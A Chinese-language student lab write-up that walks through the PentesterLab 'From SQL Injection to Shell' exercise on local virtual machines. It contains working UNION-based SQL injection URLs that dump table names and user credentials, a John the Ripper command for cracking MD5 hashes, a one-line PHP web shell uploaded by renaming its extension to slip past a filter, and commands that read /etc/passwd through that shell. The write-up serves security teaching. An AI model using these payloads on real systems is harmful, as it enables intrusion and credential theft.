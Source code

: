 # 从SQL输入到shell
### 实验环境
- 下载ISO镜像，其实就是一个Debian服务器，用该镜像新建一个虚拟机，安装完毕后发现是个控制台。
- kali攻击者：
  - ```kali-linux-2018.3-amd64.iso```
  - 使用网卡:NatNetwork
  - 网络配置：10.0.2.8
- Debian SQL:
  - ```SQLfrom_sqli_to_shell_i386.iso```
  - 使用网卡：NatNetwork
  - 网络配置：10.0.2.15
 
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/attacker_%E9%85%8D%E7%BD%AE.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/sql_%E9%85%8D%E7%BD%AE.png)

- 两者在同一个网段，能够ping成功
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/attacker_ping.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/sql_ping.png)

### 实验过程
#### 指纹识别：收集有关web应用程序和正在使用的技术信息
  - 使用```nmap -A 10.0.2.15```扫描服务器，查看它的MAC地址和端口的开放情况
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/attacker_nmap_sql.png)
  - 通过浏览器识别网页源码，发现是应用程序是用PHP编写的
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E6%BA%90%E7%A0%81_php.png)
  - 使用BurpSuit检查HTTP标头，获取更多有用的信息
    - 先给浏览器设置代理：Preferences->Advanced->Network->Setting
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E6%B5%8F%E8%A7%88%E5%99%A8%E4%BB%A3%E7%90%86%E8%AE%BE%E7%BD%AE.png)
    - 将BurpSuit的默认代理拦截先关闭，然后再在浏览器访问服务器，```10.0.2.15```
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E6%B5%8F%E8%A7%88%E5%99%A8%E9%BB%98%E8%AE%A4%E4%BB%A3%E7%90%86%E5%85%B3%E9%97%AD.png)
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/burpsuit_http%E5%8A%AB%E6%8C%81.png)
    
  - 使用工具wfuzz能够强力检测web服务器上的目录和页面，运行以下命令来检测远程文件和目录
  ``` wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://10.0.2.15/FUZZ```
    - ```-c```是输出字体的颜色
    - ```-z file,wordlist/general/big.txt```告诉wfuzz使用big.txt作为字典来强制远程目录的名称
    - ```--hc 404```如果响应代码是404，告诉wfuzz忽略响应
    - ```http://10.0.2.15/FUZZ```告诉wfuzz用字典中的每个值替换URL中的单词FUZZ。
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E4%BF%A1%E6%81%AF0.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E4%BF%A1%E6%81%AF1.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E4%BF%A1%E6%81%AF2.png)

  - wfuzz还可以用于检测服务器上的PHP脚本
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E6%A3%80%E6%B5%8BPHP%E8%84%9A%E6%9C%AC.png)

#### SQL注入的检测和利用(做实验到半虚拟机卡住了，重新开始后服务器的ip变为：10.0.2.9)
 - 检测SQL注入
   - 基于整数的检测
    在地址栏输入
   ``` 
   10.0.2.9/cat.php?id=1
   10.0.2.9/cat.php?id=2
   10.0.2.9/cat.php?id=3
   ```
   得到如下访问结果
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D1%2C2.png)

   如果输入10.0.2.9/cat.php?id=2'数据库将引发错误，多了一个'，因为该SQL的请求语法不正确
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D2%2C3.png)
    
   如果输入10.0.2.9/cat.php?id=2-1，效果和输入10.0.2.9/cat.php?id=1一样，2-1操作由数据库自动执行
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D1%2C2-1.png)
    
     - 基于字符串的检测
       - 作为一般规则，奇数个单引号会引发错误，偶数个单引号不会发生错误 
       - 如果在单引号后面加上```--```表示后面的内容会被注释掉，因此不会收到错误提示
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D1'.png)
- 利用SQL注入
  - UNION关键字 
  - 步骤：
    - 找到执行UNION的列数
    - 查找页面中回显的列
    - 从数据库元表中检索信息
    - 从其他表/数据库中检索信息
  - 猜列数
    - 使用UNION SELECT
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E7%8C%9C%E5%88%97%E6%95%B0.png)
    - 使用order by,order by主要用于告诉数据库应该使用哪个列来排序结果，如下图，按不同的列，返回结果不同
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/order_by.png)
- 进行以上操作后，我们猜测数据库有4列
- 检索信息
  - 查找页面中回显的列,确定回显在第二列
  ``` 
  http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%20@@version,2,3,4
  http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4
  ```
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E5%9B%9E%E6%98%BE1.png)
   ``` 
   http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%201,2,@@version,4
   http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%201,2,3,@@version
   ```
   ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E5%9B%9E%E6%98%BE2.png)

  - 找到当前数据库中所有表的名称和表的列的名称
  ```
  http://10.0.2.9/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns
  ```
  - 根据得到结果猜测用户名和密码存储在users表中
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/users.png)
  - 将users表中的信息显示出来
  ```
  http://10.0.2.9/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users
  ```
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/users%E4%BF%A1%E6%81%AF.png)

#### 访问管理页面和代码执行
  - 破解密码 
    - google搜索

    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/password0.png)
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/password.png)

    - 使用John可以破解该密码,先使用gunzip rocketyou.txt.gz 解压得到rocketyou.txt
    把用户名和密码密文写入到password中，执行
    ```
    john password --format=raw-md5  --wordlist=/usr/share/wordlists/rockyou.txt --rules
    ```
得到如下：

![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/john%E7%A0%B4%E8%A7%A3.png)

- 进行代码注入
  - 使用已经获得的用户名和密码登录到页面
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/login.png)
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/login1.png)
  - 创建test.php
  ```
  <?php 
  system($_GET['cmd']);
  ?>
  ```
 
  - add a new picture后，可以看到文件没有正确上传，应用程序阻止上传.php的文件

  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/add1.png)
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/add2.png)

  - 将文件名改为test.php.test文件上传成功
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/add3.png)

  - 查看网页原码
  
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/html.png)

- 利用url执行cmd命令获取服务器信息
```
10.0.2.9/admin/uploads/test.php.test?cmd=uname
```
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/linux.png)

获取系统用户的完整信息
```
10.0.2.9/admin/uploads/test.php.test?cmd=cat /etc/passwd
```
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/linux1.png)

- 参考资料
  - [从SQL注入到Shell ](https://pentesterlab.com/exercises/from_sqli_to_shell) 
  - [2018-NS-Public-FLYFLY-H ](https://github.com/CUCCS/2018-NS-Public-FLYFLY-H/)
  - [2018-NS-Public-luyj ](https://github.com/CUCCS/2018-NS-Public-luyj)

  



    

